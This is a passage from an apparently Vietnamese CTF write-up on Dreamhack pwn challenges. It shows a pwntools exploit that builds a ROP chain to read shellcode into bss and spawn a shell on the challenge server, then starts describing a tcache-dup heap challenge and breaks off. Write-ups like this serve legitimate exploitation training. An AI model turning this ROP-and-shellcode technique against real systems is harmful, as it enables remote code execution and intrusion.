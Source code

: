 
p.interactive()
```

hoặc ghi vào bss

```
from pwn import *


#p = process('./validator_dist')
p = remote('host3.dreamhack.games',21959)
e = ELF('./validator_dist')

pay = b'DREAMHACK!'

for i in range(130-len(pay),1,-1):
        pay += i.to_bytes(1,byteorder='little')

shellcode = asm(shellcraft.amd64.sh(),arch='amd64')

pay += b'\x90'*7 #for sfp

bss = 0x60104b
rdiret = 0x4006f3
rsir15ret = 0x4006f1
rdxret = 0x40057b
rbpret = 0x40057e

#insert shellcode to bss
#read(0,bss,0x500)
pay += p64(rdiret) + p64(0)
pay += p64(rsir15ret) + p64(bss) + p64(0)
pay += p64(rdxret) + p64(0x500)
pay += p64(e.plt['read'])

#return to bss
pay += p64(bss)

p.send(pay)

#send read() data
pay2 = b'\x90'*0x100 + shellcode

p.send(pay2)

p.interactive()
```

----------------------

17 . tcache dup
------


- vì code của bài khá ngắn nên ta đi thẳng vào 2 option chính luôn


option 1 :  check xem số lượng có lớn hơn 10 không , cho nhập 1 size tùy thích và malloc 1 chunk với size vừa nhập , tiếp theo là đọc dữ liệu vào chunk đó 
![image](https://hackmd.io/_uploads/BJz-mdSw41g.png)


option2 : 

cho nhập 1 idx và free() con trỏ + với idx đó luôn 

![image](https://hackmd.io/_uploads/HyiQ_SvNye.png)


```